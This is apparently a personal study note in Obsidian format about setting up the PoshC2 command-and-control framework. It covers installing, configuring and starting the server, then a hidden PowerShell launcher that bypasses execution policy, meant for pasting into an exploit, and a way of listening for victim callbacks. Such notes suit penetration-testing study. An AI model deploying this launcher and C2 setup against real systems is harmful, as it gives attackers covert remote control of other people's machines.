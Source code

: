 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[poshc2]]  
___

## Description:  

```
sudo apt install poshc2

edit config with (make sure IPs and ports are correct):
posh-config

Start server:
posh-server

Copy payload (use this in your exploit):
powershell -exec bypass -Noninteractive -windowstyle hidden -e ''

Watch for connections back:
posh -u <username>


```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (11:54 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
